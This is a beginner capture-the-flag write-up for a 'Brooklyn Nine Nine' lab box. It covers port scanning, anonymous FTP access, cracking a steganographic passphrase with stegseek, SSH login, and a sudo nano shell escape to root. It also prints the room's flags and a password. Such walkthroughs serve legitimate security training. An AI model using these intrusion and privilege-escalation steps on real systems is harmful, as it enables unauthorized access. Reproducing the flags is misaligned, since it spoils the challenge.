 #CTF 

_This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box._

## Recon

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.100.122
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

I log in to ftp as anonymous and find `note_to_jake.txt`

```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

The only thing I find in the webpage is a image and this at the bottom
```
This example creates a full page background image. Try to resize the browser window to see how it always will cover the full screen (when scrolled to top), and that it scales nicely on all screen sizes.
```

I download the image and I run exiftool

```
ExifTool Version Number         : 12.63
File Name                       : brooklyn99.jpg
Directory                       : .
File Size                       : 70 kB
File Modification Date/Time     : 2023:07:25 16:06:56-04:00
File Access Date/Time           : 2023:07:25 16:07:10-04:00
File Inode Change Date/Time     : 2023:07:25 16:06:56-04:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Image Width                     : 533
Image Height                    : 300
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 533x300
Megapixels                      : 0.160
```


## Access

I was looking online how to extract information from an image and I found stegseek

```
stegseek brooklyn99.jpg /usr/share/wordlists/rockyou.txt

StegSeek 0.6 - https://github.com/RickdeJager/StegSeek
[i] Found passphrase: "admin"
[i] Original filename: "note.txt".
[i] Extracting to "brooklyn99.jpg.out".

```

and inside "brooklyn99.jpg.out"
```
Holts Password:
fluffydog12@ninenine

Enjoy!!
```

I ssh to holt and I am in!
`ee11cbb19052e40b07aac0ca060c23ee`


## Priv Esc

```
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano

```

I search for nano on gtfo and find
```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

And I am root!
`63a9f0ea7bb98050796b649e85481845`
